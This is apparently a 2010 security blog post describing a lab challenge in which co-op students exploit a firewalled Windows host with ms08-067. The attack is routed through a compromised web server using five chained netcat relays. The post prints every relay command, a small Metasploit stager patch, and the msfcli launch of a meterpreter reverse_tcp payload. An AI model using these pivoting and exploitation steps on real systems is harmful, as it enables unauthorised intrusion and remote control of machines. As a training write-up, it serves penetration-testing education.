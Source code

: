 ```yaml
---
id: 793
title: 'Five Relays and a Patch'
date: '2010-05-26T08:57:34-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=793'
permalink: /2010/five-relays-and-a-patch
categories:
    - Hacking
    - Tools
---
```


Hey all,

We hired a new pair of <a href="http://coop.cs.umanitoba.ca">co-op students</a> recently. They're both in their last academic terms, and are looking for a good challenge and to learn a lot. So, for a challenge, I set up a scenario that forced them to use a series of netcat relays to compromise a target host and bring a meterpreter session back. Here is what the network looked like:
<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Firewall Rules" src="http://www.skullsecurity.org/blogdata/fiverelays-1.png" alt="" width="236" height="494" />
To describe in text:
<ul>
	<li>They have already compromised a Web server with a non-root account</li>
	<li>The Web server has no egress filtering, but full ingress filtering, and they aren’t allowed to install anything (fortunately, it already had Netcat)</li>
	<li>The target server has both egress and ingress filtering, and is not accessible at all from the Internet, but the Web server can connect to it on 139/445 (which are vulnerable to ms08-067). The target can also connect back to the Web server on any port.</li>
</ul>
The challenge was to exploit the target server with ms08-067 and bring a meterpreter session back to the attacker server.
<!--more-->
I had expected this would require 3-4 netcat relays, but, after helping them to get this working, we ended up with 5 relays for a variety of reasons, plus a minor patch to Metasploit! Maybe we did it the hard way, and maybe we didn’t need all those relays, but it was fun to set up and satisfying to get working.

Anyway, I’ll let them explain what they did!
<h2>Five relays and a patch</h2>
The image below shows the various netcat relays we ended up using, in order of execution.

<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Relays" src="/blogdata/fiverelays-2.png" alt="" width="405" height="560" />

The first goal was to find a way to bypass the firewalls.  Metasploit was using default ports 445 for outgoing and 4444 for incoming connections, and since we can't connect to either of those ports on the Web Server (WEB), we needed the WEB to establish a connection back to us.  Fortunately WEB can connect to TARGET on port 445, and can receive a connection back on any port. Thus 2 netcats are running on the WEB are:
<pre> nc HACKER 1234 -vv &lt; pipe4 |  nc TARGET 445 -vv &gt; pipe4</pre>
This command forwards the traffic coming in on port 1234 from the HACKER to TARGET port 445 (Relay #4).
<pre> nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
This command listens for the meterpreter session back from TARGET on port 4444 and relays it to HACKER on port 4442 (Relay #2).

Why does WEB connect on arbitrary port 1234 instead of connecting to Metasploit's port 445? Well, Metasploit doesn't listen on that port, it needs to initiate the connection. So we need a netcat relay running on HACKER to listen for connection from Metasploit and connect it with the incoming connection from the WEB (Relay #3):
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
As you might have noticed the WEB is  connecting back on port 4442, not 4444 on which Metasploit is listening (Relay #2). They cannot be connected directly, as WEB will establish connection immediately when it starts and Metasploit will get confused since its waiting on Meterpreter session and fail. So we need a relay listening on port 4442 on the HACKER and connecting it back to Metasploit, right? Well, not that simple.
<pre> nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
This command will listen for incoming connection from WEB on port 4442 and relay it to port 4443 when that connection is established (Relay #1). This gives Metasploit time to trigger an exploit and we only establish a final connection to Metasploit  once it did by running a final command:
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
This simply establishes a connection to the relay running on the same computer on port 4443 and sends it to Metasploit on port 4444 (Relay #6).

The biggest challenge was getting the timing of the last command right. We needed to activate it after Metasploit starts listening for the reverse_tcp stager but before it sends stage data. If stage data was sent before the entire link was created,the vulnerability would be exploited, but the stage would fail. In order to get the timing right for the final command, a modification to the <em>stager.rb</em> in the <em>lib/msf/core/payload/</em> folder was necessary. We added a three-second delay after the vulnerability has been triggered and before the stage data was sent in order to give us time to link the netcat relays together for the connection back.

This is the patch against the Metaploit version on the Backtrack 4 cd (it'll likely fail against the HEAD revision due to a number of changes):
<pre>Index: stager.rb
===================================================================
--- stager.rb   (revision 8091)
+++ stager.rb   (working copy)
@@ -100,6 +100,9 @@
                                p = (self.stage_prefix || '') + p
                        end

+            print_status("Delaying for three seconds (Start your nc relay).")
+            Kernel.sleep(3)
+
                        print_status("Sending stage (#{p.length} bytes)")

                        # Send the stage
@@ -164,4 +167,5 @@
        #
        attr_accessor :stage_prefix</pre>
Now that everything should be (theoretically) working, we had to make sure to start netcat relays in the right order to make sure they can establish connections, and we had to wait before executing #6 until #2 received a connection established message. The -vv command is optional for all nc instances except in #2, where they are used to determine when to execute #6. We first start all the listener relays and then start the relays that establish connections. The commands were executed in the order provided
<ol>
	<li>This command is run on the HACKER:</li>
<pre>nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
	<li>This command was run on the WEB:</li>
<pre>nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
	<li>HACKER:</li>
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
	<li>WEB:</li>
<pre>nc HACKER 1234 -vv &lt; pipe4 | nc TARGET 445 -vv &gt; pipe4</pre>
	<li>Now that we have a connection to the target we run an exploit:</li>
<pre>./msfcli exploit/windows/smb/ms08_067_netapi 
 PAYLOAD=windows/meterpreter/reverse_tcp RHOST=HACKER LHOST=WEB E</pre>
	<li>Last command is run on HACKER when Relay #2 displays a detected connection:</li>
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
</ol>
